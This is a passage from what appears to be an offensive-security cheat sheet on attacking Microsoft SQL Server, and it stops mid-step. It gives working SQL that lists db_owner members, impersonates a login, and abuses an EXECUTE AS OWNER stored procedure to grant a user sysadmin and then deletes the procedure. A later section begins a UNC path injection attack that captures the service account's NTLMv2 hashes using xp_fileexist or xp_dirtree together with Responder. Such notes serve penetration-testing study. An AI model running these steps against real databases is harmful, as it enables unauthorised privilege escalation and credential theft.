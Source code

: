 Query DB users with db\_owner role

```sql
USE webshop;
SELECT b.name, c.name
FROM webshop.sys.database_role_members a
JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id
LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;

# one-liner
USE webshop; SELECT b.name, c.name FROM webshop.sys.database_role_members a JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;
```

Impersonate as ws\_user and and check for db\_owner role

```sql
USE webshop;
EXECUTE AS LOGIN = 'ws_user';
SELECT IS_ROLEMEMBER('db_owner');
```

Assign user in this case ws\_dev sysadmin role

```sql
CREATE PROCEDURE sp_privesc
WITH EXECUTE AS OWNER
AS
	EXEC sp_addsrvrolemember 'ws_dev', 'sysadmin'
GO

EXECUTE sp_privesc;
DROP PROCEDURE sp_privesc;
```

### <mark style="color:yellow;">UNC Path Injection</mark>

We can capture NTLMv2 hashes from a user the MSSQL server is running as. Default is `NT SERVICE\mssqlserver`. We can use undocumented extended stored procedures:

* `xp_fileexist`: Checks if file exists
* `xp_dirtree`: Returns a directory tree&#x20;
* `xp_subdirs`: Returns a list of sub-directories

Example if hosts file exists

```sql
EXEC xp_fileexist 'C:\Windows\System32\drivers\etc\hosts';
```

Setup Responder

```shell-session
sudo responder -I tun0 -v
```

Then access
